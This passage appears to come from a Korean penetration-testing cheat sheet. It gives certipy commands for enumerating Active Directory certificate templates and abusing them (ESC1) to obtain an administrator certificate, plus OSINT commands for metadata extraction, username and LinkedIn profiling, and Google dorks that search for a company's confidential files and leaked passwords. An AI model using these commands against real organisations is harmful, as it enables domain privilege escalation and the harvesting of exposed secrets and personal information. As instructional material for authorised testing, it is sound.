 ### AD 인증서 서비스
```bash
# 인증서 템플릿 열거
certipy find -u user@domain.com -p password -dc-ip 192.168.1.10

# ESC1 - 인증서 템플릿 남용
certipy req -u user@domain.com -p password -ca 'CA-NAME' -template 'TEMPLATE-NAME' -alt 'administrator@domain.com'
```

---

## 🕵️ 고급 OSINT

### 메타데이터 분석
```bash
# ExifTool
exiftool document.pdf         # PDF 메타데이터
exiftool image.jpg            # 이미지 메타데이터

# 수동 메타데이터 추출
strings document.pdf | grep -E "(Author|Creator|Producer|Title)"
```

### 소셜 미디어 정보 수집
```bash
# Sherlock - 사용자명 조사
python3 sherlock.py target_username

# Social Mapper
python3 social_mapper.py -f list.txt -m linkedin

# LinkedIn 열거
site:linkedin.com "회사명" "소프트웨어 엔지니어"
site:linkedin.com intitle:"회사명"
```

### 고급 구글 도킹
```bash
# 회사별 정보 수집
"회사명" filetype:xls "기밀"
"회사명" filetype:doc "내부"
"회사명" inurl:sharepoint
"회사명" site:pastebin.com
"회사명" site:github.com "password"

# 기술 스택 발견
"powered by" site:target.com    # 사용 기술
"built with" site:target.com    # 빌드 기술
site:target.com inurl:wp-content  # WordPress
site:target.com inurl:joomla      # Joomla
```

---
